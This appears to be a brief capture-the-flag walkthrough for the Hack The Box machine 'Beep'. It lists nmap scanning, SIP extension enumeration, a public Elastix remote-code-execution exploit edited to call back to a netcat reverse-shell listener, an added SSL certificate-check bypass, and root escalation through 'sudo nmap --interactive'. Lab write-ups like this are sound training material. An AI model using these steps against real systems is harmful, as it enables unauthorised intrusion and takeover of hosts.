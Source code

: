ping 10.10.10.7
whatweb 10.10.10.7

echo "10.10.10.7 beep.htb" >> /etc/hosts

nmap -p- -min-rate 10000 10.10.10.7
nmap -p 22,25,80,110,111,143,443,993,3306,4445,10000 -sCV beep.htb

access site -> uses Elastix

searchsploit elastix
take a look on FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
cp ../exploits/php/webapps/18650.py .
mv 18650.py elastix_rce.py

#terminal 2
nc -nvlp 443

#terminal 1
sudo apt install sipvicious
svwar -m INVITE -e100-999 10.10.10.7 -> get 233

gedit elastix_rce.py
change rhost to "10.10.10.7"
change lhost to your kali ip
change extension to "233"

add lines
----------------------------------------------
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

urllib.urlopen(url, context=ctx)
----------------------------------------------

#terminal 1
python elastix_rce.py

#terminal 2
get shell
ls /home
cat /home/fanis/user.txt

sudo nmap --interactive
!bash
id -> check root
cat /root/root.txt